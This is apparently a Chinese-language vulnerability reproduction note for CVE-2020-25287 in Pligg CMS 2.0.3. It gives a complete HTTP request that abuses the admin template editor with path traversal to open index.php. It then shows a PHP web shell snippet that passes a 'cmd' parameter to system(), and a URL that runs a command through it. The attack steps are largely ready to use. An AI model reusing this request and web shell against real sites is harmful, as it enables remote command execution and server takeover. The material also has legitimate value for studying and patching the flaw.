 （CVE-2020-25287）Pligg CMS 2.0.3 远程命令执行漏洞
==================================================

一、漏洞简介
------------

该漏洞源于模板编辑器可以编辑任何文件。攻击者可利用该漏洞执行任意命令。

二、漏洞影响
------------

Pligg CMS 2.0.3

三、复现过程
------------

### POC

![1.png](./resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId25.png)

转到`/admin/admin_editor.php`拦截请求并将路径更改为文件。

例如访问目录中的`index.php`文件：

![2.png](./resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId26.png)

    POST /admin/admin_editor.php HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 33
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://kliqqi
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://www.0-sec.org/admin/admin_editor.php
    Accept-Encoding: gzip, deflate
    Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
    Connection: close

    the_file=..%2Findex.php&open=Open

只需单击"在浏览器中显示响应"，然后编辑文件即可

![3.png](./resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId27.png)

例如 ：

      if($_GET['cmd']){
        system($_GET['cmd']);
    }

最后访问`website.fr?cmd=dir`

![4.png](./resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId28.png)
